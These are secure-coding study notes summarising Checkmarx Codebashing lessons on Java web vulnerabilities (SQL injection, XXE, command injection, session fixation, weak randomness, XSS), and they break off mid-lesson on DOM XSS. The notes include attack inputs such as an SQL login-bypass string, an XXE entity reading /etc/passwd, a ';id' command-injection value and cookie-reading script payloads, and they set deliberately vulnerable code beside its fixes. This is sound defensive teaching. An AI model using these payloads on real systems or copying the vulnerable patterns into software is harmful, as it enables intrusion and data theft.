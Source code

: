 = Java Security code bashing
Thomas SCHWENDER <https://github.com/ardemius[@ardemius]>
// Handling GitHub admonition blocks icons
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]
:imagesdir: images
:resourcesdir: resources
:source-highlighter: highlightjs
// Next 2 ones are to handle line breaks in some particular elements (list, footnotes, etc.)
:lb: pass:[<br> +]
:sb: pass:[<br>]
// check https://github.com/Ardemius/personal-wiki/wiki/AsciiDoctor-tips for tips on table of content in GitHub
:toc: macro
:toclevels: 3
// To turn off figure caption labels and numbers
//:figure-caption!:
// Same for examples
//:example-caption!:
// To turn off ALL captions
:caption:

toc::[]

Those courses come from the *Security Codebashing* of *Checkmarx*. +
(*Codebashing* is a hands-on, interactive solution that fits into developers' daily routines).

A free, incomplete, version is available at https://free.codebashing.com/.

== Java Classic

=== Injection

==== SQL Injection

SQL Injection is a type of application security vulnerability whereby a malicious user is able to manipulate the SQL statements that the application sends to the backend database server for execution. A successful SQL injection attack exposes the data of the underlying database directly to the attacker. Play and Learn...

.BAD way to check authentication through a SQL statement
[source,java]
----
String email = request.getParameter("email");
String password = request.getParameter("password");

String sql = "select * from users where (email ='" + email +"' and password ='" + password + "')";

Connection connection = pool.getConnection();
Statement statement = connection.createStatement();
ResultSet result = statement.executeQuery(sql);

if (result.next()) {
    loggedIn = true;
    // Successfully logged in and redirect to user profile page
} else {
    // Auth failure - Redirect to Login Page
}
----

* The string variable sql is then declared, which represents the SQL query used to authenticate Kevin's credentials. +
Note, that Kevin's email and password values are concatenated to build the final query.
* The SQL query defined in sql string variable is then executed by invoking the executeQuery method. This method executes our query against the backend SQL server and returns a ResultSet object which is checked on line 10 through the if/else block. +
Finally, should Kevin's credentials match, the loggedIn variable is set to true and she is redirected to her profile page.

With the previous code, if we try as password the string `' or 1=1)#'`, here is what the SQL statement will look like:

.SQL injection attack example
[source,SQL]
----
String sql = "select * from users where (email ='" + email +"' and password ='" + password + "')";
​
// Below is the raw query sent to the DB:
"SELECT * FROM users WHERE (email = 'kevin@noob.com' AND password = '' or 1=1)#')"
----

* Because this statement is both syntactically valid and `OR 1=1` always returns true, *the authentication mechanism is bypassed*.

The remediation to this issue is the use of *prepared statements*.

Prepared statements (aka parameterized queries) are the best mechanism for preventing SQL injection attacks.

*Prepared statements are used to abstract SQL statement syntax from input parameters*. Statement templates are first defined at the application layer, and the parameters are then passed to them.

Aside from a better protection against SQL injection attacks, prepared statements offer *improved code quality* from a legibility and maintainability perspective due to the *separation of the SQL logic from its inputs*.

==== XXE - XML eXternal Entity

*XML External Entity* (XXE) Processing is a type of application security vulnerability whereby a malicious user can *attack poorly configured/implemented XML parser within an application*. +
Malicious external entity references can be forced by an attacker, which results in unauthorized read-access to sensitive files on the server that the XML parser runs from. Denial of Service is another potential outcome. Play and Learn...

In this interactive tutorial you will understand how XML eXternal Entity (XXE) processing attacks are used to compromise the security of a web application, and how to write code more securely to protect against this type of attack.

NOTE: Throughout this module we will use the following terms interchangeably: XML Parser, SAX Parser and XML Processor.

.classic XML trade file
[source,xml]
----
<trades>
    <metadata>
        <name>Apple Inc</name>
        <stock>APPL</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Microsoft Corp</name>
        <stock>MSFT</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>5000</units>
        <price>45</price>
        <name>Amazon Inc</name>
        <stock>AMZN</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
----

An XXE attack works by taking advantage of a feature in XML, namely *XML eXternal Entities (XXE)* that *allows external XML resources to be loaded within an XML document*. +
By submitting an XML file that defines an external entity with a file:// URI, an attacker can effectively trick the application's SAX parser into reading the contents of arbitrary file(s) that reside on the server-side filesystem.

.Malicious XML file
[source,xml]
----
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY bar SYSTEM "file:///etc/passwd" >]>
<trades>
  <metadata>
      <name>Apple Inc</name>
      <stock>APPL</stock>
      <trader>
          <foo>&bar;</foo>
          <name>C.K Frode</name>
      </trader>
      <units>1500</units>
      <price>106</price>
      <name>Microsoft Corp</name>
      <stock>MSFT</stock>
      <trader>
          <name>C.K Frode</name>
      </trader>
      <units>5000</units>
      <price>45</price>
      <name>Amazon Inc</name>
      <stock>AMZN</stock>
      <trader>
          <name>C.K Frode</name>
      </trader>
      <units>4500</units>
      <price>195</price>
  </metadata>
</trades>
----

* The DOCTYPE foo declaration references an external Document Type Definition (DTD) file, which we have named foo
* The XML declaration ELEMENT foo ANY declares that foo DTD can contain any combination of parsable data.
* Finally we use the XML declaration ENTITY to load additional data from an external resource. The syntax for the ENTITY declaration is ENTITY name SYSTEM URI where URI is the full path to a remote URL or local file. In our example we define the ENTITY tag to load the contents of "file:///etc/passwd"
* The following line maps our tag foo to the external entity &bar; that points to "file:///etc/passwd"
* When this XML document is processed by BatchTRADER's SAX parser, any instances of &bar; will get replaced by the contents of /etc/passwd file.

.Vulnerable code
[source,java]
----
public class TradeDocumentBuilderFactory {
    public static DocumentBuilderFactory newDocumentBuilderFactory() {
        DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
        try {
            documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", true);
            documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", true);
        } catch(ParserConfigurationException e) {
            throw new RuntimeException(e);
        }
        return documentBuilderFactory;
    }
}
----

* The DocumentBuilderFactory class further contains a setFeature(String,boolean) method which can be used to set features on the underlying SAX parser.
* In this example the developers have configured the SAX parser using the setFeature method to enable loading of external-general-entities by setting it's value to true
* Similarly, the SAX parser has also been configured to process external-parameter-entities entities. Both of these options allow the SAX parser to load external entities, which when specified within our trade.xml file can be abused by an attacker to read arbitrary system files. Were these set to false the SAX parser would automatically reject the referencing of external entities.

Because user supplied XML input comes from an "untrusted source" it is very difficult to properly validate the XML document in a manner to prevent against this type of attack. +
Instead the XML processor should be configured to use only a locally defined Document Type Definition (DTD) and *disallow any inline DTD that is specified within user supplied XML document(s)*. +
Due to the fact that there are numerous XML parsing engines available, each has its own mechanism for disabling inline DTD to prevent XXE. You may need to search your XML parser's documentation for how to "disable inline DTD" specifically.

Let's see how the above fix can be applied to our vulnerable example to remediate the XXE vulnerability.

.Remediation
[source,java]
----
public class TradeDocumentBuilderFactory {
​
    public static DocumentBuilderFactory newDocumentBuilderFactory() {
        DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
        try {
//              documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", true);
//              documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", true);
                documentBuilderFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
                documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
                documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);    
        } catch(ParserConfigurationException e) {
            throw new RuntimeException(e);
        }
        return documentBuilderFactory;
    }
}
----

* *The most robust method to protect against XXE attacks is to configure the applications XML parser to not allow DOCTYPE declarations*. +
This is done by setting the parsers disallow-doctype-decl parameter to true. With this set, an exception occurs if our trade.xml contains a DOCTYPE declaration and parsing stops, preventing the vulnerability from exposing sensitive information.
* However, if DOCTYPE declarations are required by the application, a good alternative is to configure the server side SAX parser to disallow declaring of external entities by setting the value for external-general-entities to false
* Similarly, we can also disable external-parameter-entities via the setFeature method.

==== Command Injection

A Command Injection vulnerability, when exploited by a malicious user, results in execution of arbitrary system commands on the host operating system. Command Injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers, etc) to a system command. The malicious system command is run server side with the same privileges as the application.

To create the analytical report, the web application's server-side code invokes a custom C++ application called statlab to perform the computationally intensive statistical analysis.

.Vulnerable code
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure command execution function in Java
//
​
public class CommandExecuter {
    public string executeCommand(String userName)
    {
        try {
            String myUid = userName;
            Runtime rt = Runtime.getRuntime();
            rt.exec("/usr/bin/statlab " + ”-“ + myUid); // Call statlab with Kevin's username
​
            // process results for userID and return output in HTML.
            // ...
​
        }catch(Exception e)
        {
            e.printStackTrace();
        }    
    }
}
----

* The executeCommand method calls the `java.lang.Runtime.exec()` function which invokes the /usr/bin/statlab application. The `exec()` method further accepts myUID as a parameter, whose value is passed to statlab program as an argument. +
For Kevin's profile the resulting string executed by `exec()` would be: `/usr/bin/statlab -kevin`

To understand how command injection attacks work, let us analyze the URL passed to our server-side code.

    https://tradeadmin.codebashing.com/console/execute?username=Kevin

When Kevin generates a Risk Analysis report, the TradeADMIN server parses the above URL, specifically the query string `username=Kevin` which is then passed to the function to generate analytical reports for Kevin's trading account.

If, in the previous URL, we append the ";id" string:

    https://tradeadmin.codebashing.com/console/execute?username=Kevin;id

In addition to the classic result (the analytical report), an Unexpected Output Error is also displayed:

----
ERROR: Unexpected output encountered: uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=root:sysadm_r:sysadm_t
----

This error comes from the previous "id" string that was added at the end of the URL, and which *has been executed as the UNIX `id` command*, that returns the user id for the user that ran the command.

* In the previous code, the executeCommand method initializes a runtime environment by invoking Runtime.getRuntime() method that allows the TradeADMIN application to interface with it's runtime environment.
* Finally executeCommand invokes the statlab program via `exec()`, passing Kevin's modified query string `Kevin;id` as an argument through myUid string variable. The final command executed on TradeADMIN server would be: `statlab -Kevin;id`
{lb}
However note that `myUid` value is not validated in any way before being passed to the `exec()` method. Given that the ";" character is interpreted as a command separator in UNIX like operating systems, *Kevin's query string is interpreted by `exec()` method as two separate commands* i.e statlab -Kevin and id

.Remediation
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure command execution function in Java
//
​
public class CommandExecuter {
    public string executeCommand(String userName)
    {
        try {
            String myUid = userName;
            if (!Pattern.matches("[-A-Za-z]+", myUiD)) {  
                return false;
        }
            Runtime rt = Runtime.getRuntime();
            rt.exec("/usr/bin/statlab " + ”-“ + myUid); // Call statlab with Kevin's username
​
            // process results for userID and return output in HTML.
            // ...
​
        }catch(Exception e)
        {
            e.printStackTrace();
        }
    }
}
----

* In our modified code example, an additional check is introduced which performs input validation against the myUiD string variable. To accomplish this, we make use of Java's `Pattern.matches()` method to run a regular expression search on myUiD variable, identifying non alphanumeric characters e.g. `; , < , > , " , ' , &` .
{lb}
Should any non alphanumeric characters be encountered, the `if` check will fail and return, thus preventing malicious control shell characters from being passed to the `statlab` program.

[NOTE]
======
Note: Although the proposed fix is sufficient to remediate our vulnerable example, the overall logic and security design for executeCommand() method can be significantly improved by not accepting user supplied myUiD value through the username parameter.

A better approach would be to extract Kevin's username from a database record or a static index variable that is set during Kevin's account creation process, which can then be passed as an argument to the statlab program for execution.
======

Some examples of OS Command Injection attacks can be found on Checkmarx resources https://www.checkmarx.com/knowledge/knowledgebase/os-command-injection

=== Broken Authentication and Session Management

==== Session Fixation

*Session Fixation* is a type of application vulnerability where *an application does not correctly renew session tokens when changing from a pre-login to post-login state*. The same pre-login session token should not be used post-login, otherwise an attacker has the potential to steal authenticated sessions of legitimate users. When a session of one user is stolen by another, it is known as a "hijacked session". Play and Learn...

As an example, when trying to login to a Web application, the URL returned by the server could look like this one:

    https://tradesupport.codebashing.com/trade_support/log-in?app_session_id=tWwO8aTiYZXJy2ZW2zNsVOVVQD6POgrW

The web application has assigned Kevin a unique *session identifier* (also known as a *session token*). +
In our example, Kevin's session identifier is set to: `tWwO8aTiYZXJy2ZW2zNsVOVVQD6POgrW`

An attacker will also get an session token when clicking on the Web application "login" button :

    https://tradesupport.codebashing.com/trade_support/log-in?app_session_id=y4hJoGIcuV1v1kSKwo5y9iLDKRiSHobs

The attacker then send this URL to a user, asking him to login with it (for some false reasons)

Kevin has logged in successfully, and the attacker, that was keeping regularly refreshing the login page, has successfully bypassed the authentication and accessed kevin's web session without trying to guess or brute force her credentials. +
Because of this *Session Fixation* attack, the attacker has managed to *hijack* Kevin's session!

.Vulnerable code
[source,java]
----
private Boolean authenticate(HttpServletRequest request, String credential, String password) {
        try {
            request.getSession(true);
            if (request.getUserPrincipal() === null) {
                request.login(credential, password);
            }
            return true;
​
        } catch (ServletException ex) {
            log.log(Level.WARNING, "Error when authenticate", ex);
        }
        return false;
}
----

The authenticate() function calls login() which verifies Kevin's credentials. However his existing session is not invalidated before invoking the login() method.

This means his pre-login session identifier would remain unchanged post login.

Given that the attacker knows Kevin's pre-authentication session value, he can successfully impersonate his authenticated session once Kevin has logged onto the TradeSUPPORT application.

A combination of the following best practices could help to defend against Session Fixation attacks:

    1. Ensure that only *server-generated session* values are accepted by the application.
    2. Upon a successful login, *invalidate the original session token*, and re-issue a new session token.
    3. *Prevent* the application from accepting session tokens via *GET* or *POST* requests and instead store session values within HTTP cookies only.

.Remediation
[source,java]
----
private Boolean authenticate(HttpServletRequest request, String credential, String password) {
        // Prevent Session Fixation (http://en.wikipedia.org/wiki/Session_fixation)
        HttpSession session = request.getSession(false);
        if (session != null) {
          session.invalidate();
        }
        try {
            request.getSession(true);
            if (request.getUserPrincipal() === null) {
                request.login(credential, password);
            }
            return true;
​
        } catch (ServletException ex) {
            log.log(Level.WARNING, "Error when authenticate", ex);
        }
        return false;
}
----

Here a new session identifier is generated for Kevin by invoking request.getSession(true) method, ensuring his *session identifier gets recycled prior to authentication*.

Should the attacker now attempt a session fixation attack against Kevin, it would fail because the session identifier has changed from it's original value that was known previously to the attacker, thus preventing the hijacking of Kevin's session.

.Reminder
NOTE: Session fixation happens when the application uses the same session token before and after the user authenticates. After authentication, the application just upgrades the token to give access to the functionality that requires authentication.

==== Use Of Insufficiently Random Values

*Insufficiently Random Values* are an application security vulnerability whereby the application generates predictable values in sensitive areas of code that absolutely require strict randomness (unpredictability). As a result it may be possible for an attacker to predict the next value generated by the application to defeat cryptographic routines, access sensitive information, or impersonate another user.

.Vulnerable code
[source,java]
----
// Generate and return a new session identifier.
​
protected String newSession()
{
    long now = System.currentTimeMillis();
​
    return encode(now);
}
​

private String encode(long time)
{
    return new String(Long.toString(time));
}
----

The best way to remediate the *Insufficiently Random Values* vulnerability is to use an algorithm that is currently considered to be strong by experts in the field, and select well-tested implementations with the seeds of the adequate length.

In general, if a *pseudo-random number generator* is not advertised as being cryptographically secure, it should not be used in security-sensitive contexts.

Pseudo-random number generators can produce predictable numbers if the generator is known and the seed can be guessed. A *256-bit seed* is a good starting point for producing a "random enough" number.

.Remediation
[source,java]
----
// Generate and return a new session identifier.
​
protected String newSession()
{
    //  long now = System.currentTimeMillis();
        SecureRandom rand = new SecureRandom();
        byte bytes[] = new byte[20];    
        rand.nextBytes(bytes);  
        String cookie = new String(Hex.encodeHex(bytes));   
        return cookie   
    //  return encode(now);
}
​
    //private String encode(long time)
    //{
    //  return new String(Long.toString(time));
    //}
----

In Java, generating a series of cryptographically secure random numbers can be achieved by using the `java.security.SecureRandom` class. 

In our modified code example, we first create a SecureRandom object and assign it to the variable `rand`.
Then we call `rand.nextBytes()` method that generates 20 bytes of random data which is hex encoded using the `encodeHex()` method on line 11 and assigned to the string variable cookie.

* *What are the consequences of insufficiently random values usage?*
    ** Session ID could be predicted and an attacker could access the application as another user

=== Cross-Site Scripting

==== Reflected Xss

Unlike Persistent XSS, with *Reflected Cross-site Scripting (XSS)* attacker-supplied script code is never stored within the application itself. Instead the attacker crafts a *malicious request to the application to illicit a single HTTP response* by the application that contains the attacker's supplied script code. Successful attacks require victim users to open a maliciously crafted link (which is very easy to do). 

Bob is an attacker and wants to execute his malicious JavaScript code in Alice's browser. +
If Bob is successful in his attack, he can steal Alice's session token, thus gaining access to the application using the same session as Alice!

Using a *stolen session token to access an application* as another user is known as *Session Hijacking*.

Bob writes a malicious email to Alice, asking her to check out a new research report at the TradeSEARCH portal.

----
Hi Alice,

TradeSEARCH portal was recently updated with some interesting research papers provided by our leading analysts. To save you time, use the link below:

https://tradesearch.codebashing.com/projects?search=%3Cscript%3Ealert('You got hacked')%3C%2Fscript%3E

Kind Regards,
Bob
----

Alice would normally ignore unsolicited emails, but the information looks relevant to her and she decides to open it. +
When Alice clicks on the link that Bob sent her, the website loads as expected. +
However, Bob's malicious JavaScript code was also executed in Alice's browser.

NOTE: This ability to *execute a malicious script in a user's browser* is known as a *Cross-site Scripting vulnerability*.

Let's now analyze how the vulnerability occurred. +
Note that if Bob was a smarter attacker, he could have stolen Alice's session instead of just displaying a pop-up window in her browser.

.Vulnerable code
[source,html]
----
//
// Pseudocode for Project Search JSP webpage
//
​
<c:when test="${f:h(allRecordCount) != 0}">
<jsp:include page="searchResults.jsp"/>
</c:when>
<c:otherwise>
  <h4>No results found for: </h4>
  <p><em><strong><%= request.getParameter("search") %></strong></em></p>
</c:otherwise>
----

* In order to generate the search results web page, TradeSEARCH developers have used the JSP Standard Templating Library (JSTL) which provides standard actions and methods for formatting and rendering HTML pages.
* When rendering a user's search result web page, the `c:when` conditional tag is called to check if any search results were returned by the server, which are then formatted and rendered by searchResults.jsp on line 6
* However, should no matching results be found for a specified keyword, the `c:otherwise` conditional tag will render the HTML markup on line 9 and 10 that renders a "No results found for:" message followed by the user supplied search phrase.
* To render the "No results found for:" error message followed by our search phrase string, `request.getParameter()` method is called to extract the search parameter from the URL which then gets directly rendered as a JSP expression. +
e.g. For `projects?search=sometext` the JSP expression `request.getParameter("search")` will yield sometext which is finally rendered in the user's browser.
* Unfortunately, *JSP's expression language does not escape expression values*, so if the search parameter contained HTML formatted data, *Java's EL expression will simply render this string* without escaping or encoding it first. +
Finally when the "No results found for:" message is displayed, the search parameters HTML data string will also get rendered, thereby allowing code injection in the users browser context.

The *main Reflected XSS remediation strategy* is to treat all the user input as a text, not as a code. This can be achieved by the following actions:

    1. *Escape user input* using language-specific or framework-specific instruments, like templates or contextual escaping. Usually, these mechanisms are enabled by default, so make sure not to disable them.

    2. Know all the locations where user input is used, and try to *avoid returning unsanitized user input* to potentially dangerous locations like HTML body and attributes, javascript, GET parameters, URLs, links, CSS.

    3. Use *additional security controls* that help to prevent XSS in case escaping controls fail or are missing.

        * *`HTTPOnly` cookie flag*. This flag prevents Javascript from accessing the cookie content, thus protecting it from being stolen if Reflected XSS is present.
        * *Content Security Policy HTTP Header*. This header restricts sources of all the page's content, including javascript code, to the *whitelist of sources*, thus making XSS exploitation more hard to perform.
        * *X-XSS-Protection HTTP Header*. This header prevents browsers from loading a page if they detect Reflected XSS exploitation.

.Remediation
[source,html]
----
//
// Pseudocode for Project Search JSP webpage
//
​
<c:when test="${f:h(allRecordCount) != 0}">
<jsp:include page="searchResults.jsp"/>
</c:when>
<c:otherwise>
  <h4>No results found for: </h4>
    <p><em><strong><c:out value="${<%= request.getParameter("search") %>}"/></strong></em></p>
//    <p><em><strong><%= request.getParameter("search") %></strong></em></p>
</c:otherwise>
​
----

The *most effective method to protect against XSS attacks* is by using JSTL's `c:out` tag or `fn:escapeXml()` EL function when displaying user-controlled input. +
These tags will automatically *escape and encode HTML characters* within the rendered HTML including `<` , `>` , `"` , `'` and `&` thereby preventing injection of potentially malicious HTML code.

* *What is the necessary condition for Reflected XSS attack?*
    ** *User input is returned in HTTP response to the browser*, e.g. in an error or a search result +
    The core concept of reflected XSS is exploiting user input reflected to user's browser in errors, search results, etc. The attacker tricks a user to open a vulnerable site with a malicious script inserted into the input field. This script is reflected back to user's browser and is treated by the browser as a part of the site.

=== Stored (Persistent) XSS

*Persistent Cross-Site Scripting (XSS)* is an application vulnerability whereby a malicious user tricks a web application into *storing attacker-supplied script code which is then later served* to unsuspecting user(s) of the application. The attacker-supplied script code runs on the client-side system of other end user(s) of the application. This type of vulnerability is widespread and affects web applications that utilize (unvalidated) user-supplied input to generate (unencoded) application output, that is served to users. 

Although Bob is a legitimate user of the application, he plans to attack other users. +
Log in as Bob with the following credentials:

    * Username: bob@bank.com
    * Password: bob123

Bob wants to add new contact records to the Partners List. +
When the New Contact page opens, Bob decides to put the malicious script into one of the input fields. He created the following script:

    <script>alert(document.cookie)</script>

Then he pastes it into the Name input field and clicks Save to send the contents of the form to the server and save the new contact to the application's database.

Bob successfully saved this unusual contact record to the application's database. +
To investigate the impact on other users of the application, we need first to log out from Bob's account and close his application session.

Alice opens the application to look up the most recent list of contacts. +
Log in as Alice using her authentication credentials:

    * Username: alice@bank.com
    * Password: alice123

Interesting! When Alice logs in to the application to view contact records, something strange happens – a browser alert appears. +
It seems that the malicious script that Bob saved in the contact record was executed in Alice's browser. This script code was the following:

    <script>alert(document.cookie)</script>

Let's look at the vulnerable code to understand how the Stored Cross-Site Scripting attack works at the code level :

.Vulnerable code
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure encoding/decoding in Java
//
​
<table>
    <c:forEach var="contact" items="${contacts}">
        <tr>
              <td>${contact.name}</td>
              <td>${contact.title}</td>
              <td>${contact.number}</td>
        </tr>
    </c:forEach>
</table>
----

Each contact object is rendered within the td tags using Java's JSP expression language (EL) syntax `${}`. This feature allows outputting the result of a contact object by first evaluating the object expression.

For example, to extract Alice's name, the expression `<td>${contact.name}</td>` will be evaluated and replaced by the string Alice in the final HTML output markup.

Unfortunately, *JSP's EL function does not escape expression values*, so if Bob saved a contact card, whose name , title or number field contained HTML formatted data, Java's EL expression will simply render the input without escaping or encoding it first. +
Finally when the web page is loaded by Alice, Bob's malicious HTML will get rendered in Alice's browser.

To *defend against Stored Cross-Site Scripting attacks*, it is important to *ensure that user-supplied data output is encoded before being served* by the application to other users.

*Output encoding* effectively works by escaping user-supplied data immediately before it is served to users of the application.

When the data is correctly escaped before being served to the user for display in their browser, the browser does not interpret it as code and instead interprets it as data, thus ensuring it does not get executed.

For example, the string `<script>` is converted to `&lt;script&gt;` when properly escaped and is simply rendered as text in the user's browser window rather than being interpreted as code.

.Remediation
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure encoding/decoding in Java
//
​
<table>
    <c:forEach var="contact" items="${contacts}">
        <tr>
//              <td>${contact.name}</td>
//              <td>${contact.title}</td>
//              <td>${contact.number}</td>
                <td><c:out value="${contact.name}"/></td>
                <td><c:out value="${contact.title}"/></td>  
                <td><c:out value="${contact.number}"/></td> 
        </tr>
    </c:forEach>
</table>
----

The *most effective method to protect against XSS attacks* is by using JSTL's `c:out` tag or `fn:escapeXml()` EL function when displaying user-controlled input. These tags will automatically escape and encode HTML characters within the rendered HTML including `<` , `>` , `"` , `'` and & thereby preventing injection of potentially malicious HTML code.

How does an attacker exploit Stored XSS?

    * Attacker sends a malicious script to a server using a vulnerable functionality (e.g. comments), and the script is successfully saved to the server. Then this script is served to users and executed in their browsers. +
    Stored XSS is possible when a malicious script is saved on the server without sanitization and then served to the application users unsanitized.

=== DOM Cross Site Scripting

*Document Object Model (DOM) Based XSS* is a type of XSS attack wherein the attacker's payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

The vulnerable application pane loads the TradeNEWS application, an online financial news platform that provides in-depth analysis of financial products, market indexes, and currencies.

Alice is a guest (anonymous) user of the TradeNEWS system. She has just loaded the application in her web browser. +
Alice decides to read a news report and proceeds by clicking the Thursday Share Tips news article.

It appears that Alice is not a paid member of the TradeNEWS portal, so she is redirected to a login screen to sign up for a paid membership or log in with existing credentials.

Notice that a "welcome" message:

    Hello guest! Please log in or sign up to access news stories
    
is displayed as a part of the TradeNEWS login screen. Before we proceed with our DOM XSS attack, let's quickly analyze the source code used to generate this message.

[source,javascript]
----
//
// Pseudocode for Landing web page
//
<h6>
<script>
​
    var name = document.location.hash.split('#')[1]; 
//https://tradenews.codebashing.com/guests/landing#guest
​
    document.write("Hello " + name + "! Please login or signup to access news stories");    
​
</script>
</h6>
----

The javascript code `document.location.hash.split('#')[1]` returns the anchor part of the TradeNEWS URL which is set to `#guest` +
(TradeNEWS URL : `https://tradenews.codebashing.com/guests/landing#guest`)

The code `split('#')[1]` extracts the string "guest" and assigns it to name variable.

Finally, the name variable is concatenated with the alert message text and written to the Document Object Model (DOM) using javascript's `document.write()` method.

Before we proceed with the attack, go ahead and try replacing *guest* with the string *myinput* in the address bar of the fake browser. Keep an eye on the code window to see the code being updated in real time with your input string.

Bob is an attacker and has just discovered a DOM XSS vulnerability within the TradeNEWS website, specifically in the JavaScript code responsible for displaying the "welcome” message. +
Bob knows that by exploiting the DOM XSS vulnerability he can trick Alice into submitting her credit card details to Bob, but how can he organize this?

